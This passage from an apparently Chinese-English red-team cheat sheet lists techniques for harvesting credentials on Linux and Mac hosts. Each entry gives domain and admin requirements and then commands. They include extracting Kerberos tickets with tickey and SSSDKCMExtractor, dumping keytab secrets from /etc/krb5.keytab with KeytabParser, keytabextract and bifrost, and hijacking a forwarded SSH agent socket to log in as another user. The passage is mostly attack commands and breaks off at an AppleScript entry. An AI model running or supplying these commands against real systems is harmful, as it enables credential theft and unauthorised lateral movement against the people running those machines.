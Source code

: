 -   `https://github.com/TarlogicSecurity/tickey`
-   `/tmp/tickey -i`

### **CCACHE ticket reuse from SSSD KCM**

域: Yes

Local Admin: Yes

操作系统: Linux

类型: Enumeration & Hunting

方法：

-   `git clone https://github.com/fireeye/SSSDKCMExtractor`
-   `python3 SSSDKCMExtractor.py –database secrets.ldb –key secrets.mkey`

### **CCACHE ticket reuse from keytab**

域: Yes

Local Admin: Yes

操作系统：Linux/Windows/Mac

类型：Enumeration & Hunting

方法：

-   `git clone https://github.com/its-a-feature/KeytabParser`
-   `python KeytabParser.py /etc/krb5.keytab`
-   `klist -k /etc/krb5.keytab`

Or

-   `klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab`
-   `python3 keytabextract.py krb5.keytab`
-   `./bifrost -action dump -source keytab -path test`

### **SSH Forwarder**

域：Yes

Local Admin: Yes

操作系统：Linux

类型：Enumeration & Hunting

方法：

-   转发代理 yes`ForwardAgent yes`
-   `SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh bob@boston`

AppleScript

域：No

Local Admin: Yes
